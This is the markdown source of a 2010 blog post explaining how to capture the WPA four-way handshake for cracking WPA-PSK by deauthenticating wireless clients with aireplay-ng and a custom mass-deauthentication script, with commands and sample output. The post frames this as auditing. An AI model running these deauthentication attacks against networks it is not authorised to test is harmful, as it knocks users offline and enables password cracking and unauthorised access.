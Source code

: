 ```yaml
---
layout: post
title: "Capturing the WPA handshake using mass deauthentication"
date: 2010-12-20 18:10:26 -0400
comments: true
categories: coding howto hacking
redirect_from: /2010/12/capturing-wpa-handshake-using-mass.html
---
```


Capturing the 4-way handshake required to crack WPA-PSK can be a bit frustrating when you can't get a client to deauthenticate and reauthenticate with the access point. One option is to deauthenticate all the clients by not providing the client's MAC address when running the deauthentication attack:

<!--more-->

```
aireplay-ng -0 1 -a 00:0F:66:XX:XX:XX mon0
```

This is a bit overkill since you might not want to knock out all the clients on the network when performing an audit. The alternative is to target different clients and hope one of them deauthenticates and reauthenticates. This can be time consuming as you'll be picking one client, trying it, then picking another if it doesn't work. 

To solve this problem, I've written a little script that lets you deauthenticate several targeted clients and increases your chances of the deauthentication attack working. 

You can grab the latest version from [GitHub](https://github.com/superkojiman/mass_deauth).

Let's take a look at a sample WPA-PSK network captured by airodump-ng:

```
 CH  6 ][ Elapsed: 11 mins ][ 2010-12-20 14:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:XX:XX:XX  -60   4      130     3917    2   6  54   WPA  TKIP   PSK  prime2
 
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes
 
 00:0F:66:XX:XX:XX  00:26:BB:XX:XX:XX  -46   54 -54     51     1716
 00:0F:66:XX:XX:XX  00:13:E8:XX:XX:XX  -46   54 -12     18      219
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```
 
 Our target access point is called prime2 and it has six clients connected to it. Let's say we want to deauthenticate the last four on that list. The fastest way to do that is to just copy and paste those lines into a file. Call it target_list.txt. It should look like this:

```
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```

Next, run mass_deauth.sh and pass it target_list.txt:

A quick explanation on what the options mean. 

* -i is the interface we're using. In this case, mon0
* -t is the file containing the clients, target_list.txt
* -a: is the access point's MAC address.
* -n is the number of deauthentication packets to send. If you don't use -n it defaults to 1. In this case, we're going to send 5 deauthentication packets.

Run the command and you should get output similar to the following for each targeted client:

```
Attempting to deauthenticate 90:4C:E5:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c 90:4C:E5:XX:XX:XX mon0
14:34:15  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [26|45 ACKs]
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [47|42 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [48|43 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [45|37 ACKs]
14:34:18  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [29|50 ACKs]
 
Attempting to deauthenticate C4:46:19:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c C4:46:19:XX:XX:XX mon0
14:34:24  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:25  Sending 64 directed DeAuth. STMAC: [C4:46:19:XX:XX:XX] [ 7|51 ACKs]
.
.
.
```

With any luck, at least one of the clients you targeted should have deauthenticated and reauthenticated, thus allowing you to capture the 4-way handshake. If not, give it another go and maybe increase the number of deauthentication packets sent and see if that helps. 

